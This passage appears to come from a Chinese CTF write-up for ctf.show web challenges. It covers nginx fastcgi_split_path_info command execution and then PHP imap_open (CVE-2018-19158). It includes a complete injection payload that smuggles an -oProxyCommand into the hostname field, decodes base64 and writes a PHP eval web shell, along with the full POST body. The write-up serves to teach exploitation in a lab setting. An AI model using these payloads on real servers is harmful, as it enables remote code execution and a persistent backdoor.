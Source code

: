 利用工具破坏 fastcgi_split_path_info 指令来使题目达到命令执行

```bash
go run . "http://92cdd785-55c4-4b35-85fa-ae1dc7fdc367.challenge.ctf.show/index.php"
```

在题目后传入命令a参数

```
url?a=ls
```

命令参数可能需要多次传入才会有回显

## web 312  IMAP(CVE-2018-19158)

相关漏洞：php imap(CVE-2018-19158)，php的imap邮件扩展

:::tip
IMAP协议（因特网消息访问协议）它的主要作用是邮件客户端可以通过这种协议从邮件服务器上获取邮件的信息，下载邮件等。它运行在TCP/IP协议之上，使用的端口是143。在php中调用的是imap_open函数
:::

函数分析

```php
imap_open(string $mailbox,string $user,string $password）
```

其中参数mailbox,是用来连接邮箱服务器的。它会调用rsh来连接远程shell，在debian/ubuntu环境默认使用ssh来代替rsh

$mailbox参数的值由服务器名和服务器上的mailbox文件路径所组成

```php
$mbox = imap_open ("{localhost:993/PROTOCOL/FLAG}INBOX", "user_id", "password");
```

INBOX代表的是当前用户的个人邮箱。在花括号内的字符串中，有服务器域名(或者IP地址)、端口号以及协议名称，标志。用户可以在协议名后设置（第3个参数）。

这个漏洞从第一个参数着手，POC格式：x+-oProxyCommand%3decho%09编码后的内容|base64%09-d|sh}

好现在我们把这个POC补充完整，缺少一个bash64编码的shell命令

```bash
# 注意echo用单引号，双引号$会出现特殊含义导致错误
echo '<?php eval($_POST[1]);?>' > 1.php
# 编码后的sh，如果存在+=，再进行一次url编码
ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+JyA+IDEucGhw
# payload
ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2BJyA%2BIDEucGhw
```

替换后的payload：

```
x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2BJyA%2BIDEucGhw|base64%09-d|sh}
```


只给一个服务器地址就能执行，邮箱密码随便了。用hackbar的post,bp发包都可以，会提示报错，但是木马已经写进去了，直接访问

post：
```
hostname=x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2BJyA%2BIDEucGhw|base64%09-d|sh}&username=1&password=1
```
